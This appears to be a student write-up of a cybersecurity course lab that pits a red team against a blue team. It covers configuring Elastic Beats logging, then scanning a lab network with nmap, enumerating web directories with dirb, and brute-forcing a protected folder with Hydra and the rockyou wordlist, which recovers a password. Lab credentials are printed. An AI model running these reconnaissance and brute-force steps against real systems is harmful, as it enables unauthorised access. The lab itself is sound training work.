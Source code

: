 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help``
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
    - ![](/Img/hydra2.png)
